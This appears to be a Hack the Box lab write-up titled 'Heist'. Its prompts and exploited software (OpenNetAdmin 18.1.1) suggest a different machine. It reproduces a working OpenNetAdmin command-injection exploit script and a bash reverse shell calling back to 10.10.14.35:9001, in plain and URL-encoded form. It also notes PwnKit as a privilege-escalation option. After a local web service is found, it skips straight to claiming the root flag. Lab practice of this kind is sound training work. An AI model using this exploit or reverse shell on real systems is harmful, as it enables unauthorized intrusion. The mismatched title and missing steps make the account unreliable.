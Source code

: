 # Hack the Box - Machine - Heist
Author: del_KZx497Ju 
Release Date: January 4, 2020

## Machine Description
An easy level Linux box

## Tools Used
- nmap
- gobuster


## Write Up

Looks like we have SSH on port 22 and an Apache webserver on 80

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

```

Let's Check out the webpage, it the default apache install page.

![Default Page](./img/01_webpage.png)

Lets run gobuster to see if anything else is running on the webserver

```
/music                (Status: 301) [Size: 314] [--> http://10.129.66.234/music/]
/artwork              (Status: 301) [Size: 316] [--> http://10.129.66.234/artwork/]
/sierra               (Status: 301) [Size: 315] [--> http://10.129.66.234/sierra/] 
```
We get three websites, lets check out the first one. Music

![Music Page](./img/02_music.png)

When you try to log into the music page, it asks for an update. But his enumerates that its using OpenNetAdmin version number as 18.1.1

![ona](./img/03_ONA.png)

Quick search on exploitdb reveals some PoC exploits for RCE are available.

![exploitdb](./img/04_exploitdb.png)

Lets try the [RCE exploit](https://www.exploit-db.com/exploits/47691).

```bash
URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
Cool we have remote code execution:

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ whoami
www-data
```

Lets get a proper shell

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ bash -i >& /dev/tcp/10.10.14.35/9001 0>&1

```

No shell, but since the command is send over a curl request and there is a lot of wierd characters lets try URL encoding the reverse shell command and sending it. You can use cyber chef to url encode.

```
       cmd: bash -c 'bash -i >& /dev/tcp/10.10.14.35/9001 0>&1'
urlencoded: bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E35%2F9001%200%3E%261%27
```

```
$ bash ona_ex.sh http://10.129.66.234/ona/login.php
$ bash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E14%2E35%2F9001%200%3E%261%27

```

We get a shell. Lets upload and run linpeas and see what it enumerates.

- Vulnerable to CVE-2021-4034 PwnKit (Not the intended path to exploit the box)
- mysql is running (mysql     1348  0.0  4.7 1621384 192320 ?      Sl   Aug21   0:12 /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid)
- Identidy 3 users:
⋅⋅- uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
⋅⋅- uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
⋅⋅- uid=0(root) gid=0(root) groups=0(root)
- Locally Listening on a highport (tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      - )

Let netcat to that port to see what running

```
www-data@openadmin:/opt/ona/www/local/config$ nc 127.0.0.1 52846
nc 127.0.0.1 52846
hello
HTTP/1.1 400 Bad Request
```

looks like a webserver









We have the root flag!
